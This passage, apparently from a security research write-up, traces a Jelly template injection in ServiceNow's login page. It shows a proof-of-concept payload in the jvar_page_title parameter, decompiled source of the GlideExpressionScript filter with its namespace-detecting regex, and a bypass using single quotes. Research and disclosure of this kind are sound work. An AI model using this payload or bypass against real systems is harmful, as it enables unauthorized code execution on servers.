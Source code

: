     
    
    /login.do?jvar_page_title=<style><j:jelly xmlns:j="jelly" xmlns:g="glide"><g:evaluate>gs.addErrorMessage(7*7);</g:evaluate></j:jelly></style>

Trying this, we hit up against another mitigation:

    
    
    GlideExpressionScript: jelly injection attempt blocked

Tracing where this is specified in the source, we find yet another mitigation
in `com.glide.ui.jelly.GlideExpressionScript`:

    
    
    public class GlideExpressionScript
    extends ExpressionScript
    implements IProperties,
    IJellyConstants {
        private static final GlideProperty fEscapeAllScript = new GlideProperty("glide.ui.escape_all_script");
        private static final GlideProperty fAllowDeepHtmlValidation = new GlideProperty("glide.ui.allow_deep_html_validation", false);
        private static final GlideProperty fAllowNamespaceInNoEscape = new GlideProperty("glide.ui.jelly.allow_ns_in_no_escape", false);
        private static final Pattern fPatternDollar = Pattern.compile("\\$");
        private static final Pattern GLIDE_NS_PATTERN = Pattern.compile("xmlns:(g2|g)\\s*=\\s*\"glide\"");
        private static final String JELLY_INJECTION_ATTEMPT_MSG = "GlideExpressionScript: jelly injection attempt blocked from %s";
        private GlideJellyContext fGJC;
    
        // ... 
    
        private boolean hasNoEscapeWrappedNamespaceDeclaration(String value) {
            if (fAllowNamespaceInNoEscape.isTrue() || "false".equals(this.fGJC.getVariable("no_escape"))) {
                return false;
            }
            return GLIDE_NS_PATTERN.matcher(value).find();
        }
    
        private void runWithEscaping(XMLOutput output) throws JellyTagException {
            // ...
            IGlideExpressionWrapper wrapper = (IGlideExpressionWrapper)this.getExpression();
            String value = wrapper.evaluateAsString(this.fGJC, additionalEscapes = this.getEscapes(text = wrapper.getExpressionText()));
            if (value == null) {
                return;
            }
            if (this.hasNoEscapeWrappedNamespaceDeclaration(value)) {
                Log.warn((String)String.format(JELLY_INJECTION_ATTEMPT_MSG, text));
                output.getWriter().setEscapeText(true);
            }
            // ...
        }

From this, we see that if our input matches `/xmlns:(g2|g)\s*=\s*"glide"/`, we
will be blocked. But this is also bypassable - we can just use single quotes
around `glide!`
